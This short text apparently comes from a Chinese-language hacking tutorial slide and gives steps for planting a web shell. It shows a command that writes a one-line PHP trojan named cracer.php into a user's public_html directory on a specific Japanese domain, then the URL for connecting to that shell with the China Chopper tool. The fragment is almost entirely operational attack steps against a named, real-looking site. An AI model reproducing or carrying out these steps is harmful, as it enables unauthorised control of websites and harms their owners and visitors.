

# 导出一句话
;copy ccc(w) to $$/home/kasugai_tochi/public_html/script/cracer.php$$;  将一句话木马保存为cracer.php文件

菜刀连接
http://www.kasugai-tochi.jp/script/cracer.php